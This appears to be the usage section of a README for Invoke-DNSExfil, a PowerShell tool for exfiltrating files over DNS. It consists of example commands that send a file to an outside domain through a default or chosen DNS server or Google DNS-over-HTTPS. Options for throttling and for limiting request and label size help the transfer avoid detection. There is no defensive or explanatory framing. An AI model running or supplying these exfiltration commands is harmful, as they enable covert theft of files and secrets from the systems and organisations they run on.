   ### Using the system's default DNS server, without any option
    PS C:\> Invoke-DNSExfil -i anyFile -d mydomain.com -p password

  ### Using a specific DNS server
    PS C:\> Invoke-DNSExfil -i anyFile -d mydomain.com -p password -s 192.168.52.134
  
  ### Using a specific DNS server, with throttling at 500ms
    PS C:\> Invoke-DNSExfil -i anyFile -d mydomain.com -p password -s 192.168.52.134 -t 500

  ### Limiting the DNS request size to a maximum of 150 bytes
    PS C:\> Invoke-DNSExfil -i anyFile -d mydomain.com -p password -r 150
  
  ### Limiting the label size to a maximum of 40 characters
    PS C:\> Invoke-DNSExfil -i anyFile -d mydomain.com -p password -l 40
  
  ### Using Google DoH (DNS over HTTP), without any option
    PS C:\> Invoke-DNSExfil -i anyFile -d mydomain.com -p password -h google
